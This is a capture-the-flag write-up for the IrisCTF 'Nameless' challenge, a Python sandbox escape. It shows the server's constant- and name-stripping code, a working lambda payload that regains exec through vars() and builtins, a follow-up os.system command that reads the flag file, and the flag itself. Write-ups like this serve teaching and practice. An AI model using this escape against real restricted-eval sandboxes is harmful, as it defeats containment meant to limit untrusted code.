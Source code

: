 # Nameless (Misc)
> obligatory unrealistic sandbox escape challenge!!!!!!!

This challenge is a Python escape where the server strips almost all constants from your code and then runs it. It also removes all names (variables) that aren't locals/arguments.
All strings are set to "", numbers to 0, tuples empty, and code is recursively checked.

```py
def clear(code):
    print(">", code.co_names)
    new_consts = []
    for const in code.co_consts:
        print("C:", const)
        if isinstance(const, code_type): # functions/lambdas/etc
            new_consts.append(clear(const))
        elif isinstance(const, int): # ints set to 0
            new_consts.append(0)
        elif isinstance(const, str): # strings can stay if empty
            new_consts.append("")
        elif isinstance(const, tuple): # tuples are set to None (iirc it'll segfault otherwise actually)
            new_consts.append(tuple(None for _ in range(len(const))))
        else: # anything else is set to None
            new_consts.append(None)
    return code.replace(co_names=(), co_consts=tuple(new_consts)) # names are removed, triggering a segfault if there was one, and consts are updated
```

The code is eval'd with empty locals/globals, and the return value is treated as a function and called again with the output from `vars()`.

```py
go = input("Code: ")
res = compile(go, "home", "eval")
# ...
res = clear(res)
del clear
del go
del code_type
# Go!
res = eval(res, {}, {}) # expected to return a callable
print(res(vars(), vars))
```

The trick is to use keyword arguments to extract specific names from arguments, and `**` to convert the dicts from `vars()` into keyword arguments.

```py
lambda a, vars: (lambda __builtins__=None, **kw: (lambda exec, input, **k: exec(input()))(**vars(__builtins__)))(**a)
```

This calls `exec(input())`, so sending `import os; os.system('cat /flag')` works after.

```
irisctf{i_made_this_challenge_so_long_ago_i_hope_there_arent_10000_with_this_idea_i_missed}
```
